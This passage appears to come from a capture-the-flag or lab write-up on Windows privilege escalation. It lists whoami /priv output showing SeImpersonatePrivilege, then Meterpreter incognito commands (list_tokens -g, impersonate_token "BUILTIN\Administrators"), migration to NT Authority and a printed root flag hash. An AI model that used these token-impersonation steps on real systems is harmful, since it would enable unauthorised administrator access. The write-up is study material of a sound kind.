 running whoami/priv we see that we have `SeImpersonatePrivilege` and `SeDebugPrivilege` enabled so we will exploit them.

for this load the incognito module

![[Pasted image 20210527163347.png]]

running `list tokens -g`

![[Pasted image 20210527163548.png]]

running
`impersonate_token "BUILTIN\Administrators"`
![[Pasted image 20210527163726.png]]

migrating to NT Authority

![[Pasted image 20210527164000.png]]

![[Pasted image 20210527164127.png]]

root == dff0f748678f280250f25a45b8046b4a



